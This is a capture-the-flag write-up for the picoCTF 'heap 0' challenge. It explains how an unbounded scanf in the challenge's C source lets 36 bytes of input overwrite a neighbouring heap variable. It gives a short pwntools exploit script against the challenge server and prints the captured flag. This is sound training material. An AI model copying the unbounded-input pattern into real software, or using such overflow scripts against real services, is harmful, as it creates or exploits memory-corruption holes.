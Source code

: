# heap 0

Are overflows just a stack concern? Download the binary [here](https://artifacts.picoctf.net/c_tethys/13/chall). Download the source [here](https://artifacts.picoctf.net/c_tethys/13/chall.c).

Given the sourcecode, we see the win condition in function `check_win()`:

```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

For this, we just need to change `safe_var` to be anything other than `bico`.

Further analysis also finds a buffer overflow in the `write_buffer()` function. This contains a call to `scanf()` which lacks boundary checks meaning we can overwrite adjacent memory locations.

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

As the memory locations of `safe_var` and `input_data` are printed to the console, we can subtract them and see the difference is 32 bytes. As such, we need to provide a string via option 2 of at least 33 bytes to cause the overflow.

We can use option 2 to write a buffer, send a large amount of data to cause a crash and then print the flag with option 4:

![[picoctf/images/Pasted image 20250210211916.png]]

```python
from pwn import *

context.binary = binary = ELF("chal")

p = remote("tethys.picoctf.net", 65235)

p.sendline(b"2")

p.sendline(b"A" * 32 + b'B' * 4)

p.sendline(b"4")

p.interactive()
```

```
picoCTF{my_first_heap_overflow_4fa6dd49}
```
